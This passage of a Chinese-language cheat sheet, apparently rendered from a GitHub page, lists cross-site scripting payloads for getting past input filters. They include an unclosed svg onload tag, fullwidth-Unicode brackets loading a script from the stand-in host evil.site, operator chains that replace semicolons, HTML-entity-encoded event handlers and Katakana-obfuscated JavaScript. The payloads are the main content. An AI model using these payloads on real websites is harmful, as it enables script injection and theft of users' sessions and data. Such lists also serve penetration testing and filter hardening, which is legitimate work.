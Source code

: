 ### 不使用">"

不需要关闭标签。

```javascript
<svg onload=alert(1)//
```

### 使用Unicode编码绕过"<" 和 ">"

Unicode 编码 U+FF1C = "<"   U+FF1E = ">"
>注：没测试成功，也许在某些特定情况下能用

```javascript
＜script/src=//evil.site/poc.js＞
```

### 绕过 ";" 使用另一种字符

```javascript
'te' * alert('*') * 'xt';
'te' / alert('/') / 'xt';
'te' % alert('%') % 'xt';
'te' - alert('-') - 'xt';
'te' + alert('+') + 'xt';
'te' ^ alert('^') ^ 'xt';
'te' > alert('>') > 'xt';
'te' < alert('<') < 'xt';
'te' == alert('==') == 'xt';
'te' & alert('&') & 'xt';
'te' , alert(',') , 'xt';
'te' | alert('|') | 'xt';
'te' ? alert('ifelsesh') : 'xt';
'te' in alert('in') in 'xt';
'te' instanceof alert('instanceof') instanceof 'xt';
```

### 使用HTML encoding bypass

```javascript
%26%2397;lert(1)
&#97;&#108;&#101;&#114;&#116;
></script><svg onload=%26%2397%3B%26%23108%3B%26%23101%3B%26%23114%3B%26%23116%3B(document.domain)>
```

### 使用Katakana绕过

使用 [Katakana](https://github.com/aemkei/katakana.js) 库

```javascript
javascript:([,ウ,,,,ア]=[]+{},[ネ,ホ,ヌ,セ,,ミ,ハ,ヘ,,,ナ]=[!!ウ]+!ウ+ウ.ウ)[ツ=ア+ウ+ナ+ヘ+ネ+ホ+ヌ+ア+ネ+ウ+ホ][ツ](ミ+ハ+セ+ホ+ネ+'(-~ウ)')()
```

### 使用楔形文字绕过
